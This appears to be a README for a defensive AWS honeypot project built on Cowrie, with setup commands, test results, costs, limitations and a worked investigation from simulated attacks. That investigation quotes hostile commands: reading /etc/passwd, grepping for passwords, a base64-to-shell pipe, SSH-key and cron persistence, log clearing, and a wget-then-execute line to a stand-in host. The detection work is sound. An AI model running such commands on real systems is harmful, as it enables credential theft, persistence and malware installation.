| **Automated test results**<br> | **Attack simulation results**<br> |

<sub>**How these were captured.** All images are renders of the running application at `http://127.0.0.1:8501`, captured by [scripts/capture_screenshots.py](scripts/capture_screenshots.py) (headless Chrome via Playwright, 1600 px wide at 2×). The same pages were also opened and checked in the Claude desktop app's built-in browser. Its native 800×500 captures are kept in [screenshots/built-in-browser/](screenshots/built-in-browser/).

`07` shows the architecture *design* diagram inside the app, not the AWS console, because nothing has been deployed. `08` shows a read-only `terraform plan` (80 resources), not an apply.</sub>

## Quick start (local, no AWS needed)

```bash
git clone https://github.com/ahmedhany-cys/aws-honeytrap && cd aws-honeytrap
python3.12 -m venv .venv
.venv/bin/pip install -r requirements-dev.txt && .venv/bin/pip install -e .

scripts/honeypot_local.sh start                 # Cowrie on 127.0.0.1:2222 (SSH) / 2223 (Telnet)
.venv/bin/python -m tests.simulations.runner    # 8 attack scenarios -> data/simulation (SIMULATION)
.venv/bin/honeytrap synth --store data/demo     # optional SYNTHETIC demo data
.venv/bin/streamlit run dashboard/app.py        # http://127.0.0.1:8501
```

With Docker, the same hardened image the EC2 instance runs:

```bash
mkdir -p honeypot/runtime/docker-var && chmod 0777 honeypot/runtime/docker-var
docker compose up -d --build cowrie
python -m tests.simulations.runner --log honeypot/runtime/docker-var/log/cowrie/cowrie.json
```

CLI:

```bash
honeytrap rules                                                       # list detection rules
honeytrap ingest --input cowrie.json --origin simulation --store data/local --correlate
honeytrap report --store data/simulation --ip 127.0.0.1 --out report.md
```

## AWS deployment

```bash
scripts/package_honeypot.sh          # or download the cowrie-image CI artifact into build/
scripts/deploy.sh dev                # preflight -> build -> fmt/validate/tflint/checkov -> plan -> typed confirm -> apply
scripts/teardown.sh dev              # destroy + verify nothing tagged remains
```

The sensor has **no internet egress, even at boot**:

* packages come from the Amazon Linux 2023 repository, which is served from S3;
* the container image comes from the artifacts bucket;
* both are reached through the S3 gateway endpoint.

Details, optional TI keys, remote state and CI notes are in **[docs/deployment.md](docs/deployment.md)**.

## Testing

| Suite | What it covers | Result |
|---|---|---|
| Unit (140) | Parser and redaction, every rule (threshold, below-threshold, technique), command classifier (positive and negative), severity and escalation, MITRE catalogue, enrichment (cache, TTL, rate limits, errors, non-public IPs), shipper, reports, synthetic-data safety | ✅ |
| Integration (10) | Ingest → store → detect → alert → correlate. Lambda handlers on **moto** S3/SSM/SNS. Idempotent re-delivery. Dashboard loading from S3 | ✅ |
| Security (26) | Policy-as-code over Terraform: S3-only egress, no NAT/LB/EIP, IMDSv2 hop 1, no IAM wildcards, write-only sensor role, public access blocks, TLS, lifecycle, SecureStrings. Secret patterns. `.gitignore` coverage. Decoy values | ✅ |
| Simulation (8 scenarios) | Real Cowrie, real SSH/Telnet clients: brute force, spray, recon, suspicious commands, download+execute, Telnet, tunnelling, connection flood | ✅ 8/8 locally, and in CI against Docker |
| IaC | `terraform fmt/validate`, tflint (AWS ruleset), Checkov | ✅ 0 issues / 0 failed |
| Secrets & deps | gitleaks (full history), pip-audit | ✅ 0 findings |

```bash
pytest                                   # unit + integration + security (176 tests, 87 % coverage)
pytest -m simulation                     # needs the local honeypot running
scripts/collect_evidence.sh              # regenerates docs/evidence/ (and PLAN=1 for a read-only plan)
```

The raw outputs are committed in [docs/evidence/](docs/evidence/): JUnit XML, coverage, terraform, tflint, Checkov, gitleaks, plan summary and simulation results.

## Example investigation

From the simulation data. This is our own scripts against our own honeypot, **not** real attacker activity. The full generated report is in [docs/example-investigation-report.md](docs/example-investigation-report.md).

1. **A brute force (HT-AUTH-001, Medium)** arrives from one source. In the same window, **HT-AUTH-002** shows `W**********!` sprayed across 8 usernames.
2. **The source logs in as `root` (HT-AUTH-006).** The investigation timeline shows a recon burst: `uname`, `whoami`, `ifconfig`, `ps`, `netstat`, `cat /etc/passwd`. The source then reads the decoy `app.env` and runs `grep -ri password` (**HT-CMD-005**, T1552.001).
3. In a later session it runs `echo dW5hbWUgLWEK | base64 -d | sh` (**HT-CMD-002**, T1140 + T1059.004). Cowrie emulated the decoded command and logged it as `uname -a`, so the payload's intent is visible.
4. **It persists** with an `authorized_keys` append and a crontab install (**HT-CMD-003**, High). It then covers its tracks with `iptables -F` and `history -c` (**HT-CMD-004**, High: T1686, T1070.003, T1690).
5. **The final session runs `wget http://198.51.100.23/bins/x86_64; chmod +x; /tmp/x86_64`** (**HT-DL-002, Critical**). Cowrie refused the fetch because the address isn't globally routable, and CI asserts that no payload is ever retrieved.
6. **The report** rates the source *Critical (100/100), Malware dropper / bot loader*. It lists 25 ATT&CK techniques with evidence, the payload URLs as IOCs, and recommended actions for production hosts.

## Cost considerations

The target account is on AWS's **Free plan** ($120.78 credits, expiring **2026-11-30**, checked via `aws freetier get-account-plan-state`). One sensor costs about **$13.6–14.5/month at list prices** in us-west-1:

* t3.micro: $9.05
* public IPv4: $3.65
* gp3: $0.77
* S3 and flow logs: under $1

On the Free plan this is deducted from credits. Lambda, EventBridge, SNS, SQS, CloudWatch alarms and Glue stay within always-free limits.

There is no NAT gateway, load balancer, KMS CMK, interface endpoint, GuardDuty or paid threat intelligence. Budgets alert by email, but **they do not stop spend**; teardown does. Full breakdown and risk list: **[docs/cost-management.md](docs/cost-management.md)**.

## Limitations

* **Not yet deployed.** No live internet telemetry has been collected. The detections are validated on simulations and synthetic data only, and real-world thresholds will need tuning against real volume.
* **Tumbling windows.** A burst that straddles a window boundary is counted in two windows; the example report shows exactly this (14 + 36 failures). The hourly correlator mitigates it. True sliding windows would need state (DynamoDB).
* **Cowrie is fingerprintable.** Skilled operators can detect it. The value is in high-volume automated attacks.
* **A container is not a VM.** A Cowrie or Twisted RCE would run as uid 10001 in a locked-down container with no egress. gVisor or Firecracker would add a stronger boundary.
* **No capture of second-stage payloads.** Egress is closed on purpose, so download attempts record URLs but not binaries. That is a deliberate safety trade-off.
* **Enrichment is optional.** Without free API keys or a GeoLite2 database, live data shows `not_configured`. The dashboard never fills the gap with guesses. The map in the screenshots uses clearly labelled **synthetic** geo.
* **Local verification was native, not Docker.** The development machine has no Docker engine, so the Docker image and compose stack are built and exercised in GitHub Actions instead. The native Cowrie run used the same configuration and decoy filesystem.

## Future improvements

* Deploy the sensor (pending approval) and tune thresholds on live data. Then publish aggregate statistics only.
* An optional sandboxed payload-capture path: a separate, egress-proxied enclave with a URL allowlist and file-size caps, feeding YARA and ClamAV.
* Sliding-window detections with DynamoDB TTL state (free tier).
* Multi-sensor fleet across regions, with HASSH and client-fingerprint clustering of botnet families.
* Export to STIX 2.1 / MISP. OCSF-formatted events for Security Lake.
* GitHub OIDC deploy workflow with manual approval gates.
* Run the sensor under gVisor (`runsc`) for kernel-level isolation.

## Repository layout

```
├── architecture/            design notes + SVG diagram
├── athena/queries/          saved investigation queries (deployed as Athena named queries)
├── backend/honeytrap/       engine: ingestion, detection, mitre, enrichment, storage, reporting, CLI
├── dashboard/               Streamlit app (7 views)
├── docs/                    security, detections, deployment, cost, incident response, evidence/
├── honeypot/                Cowrie config, decoy filesystem builder, Dockerfile, shipper
├── lambda/handlers/         processor + correlator Lambda entry points
├── scripts/                 local honeypot, deploy, teardown, build, evidence, screenshots
├── terraform/               root composition, 6 modules, environments/
├── tests/                   unit, integration (moto), security (policy-as-code), simulations
└── screenshots/             dashboard captures used above
```

## License

MIT. See [LICENSE](LICENSE). MITRE ATT&CK® content is © The MITRE Corporation and is used under the ATT&CK Terms of Use.
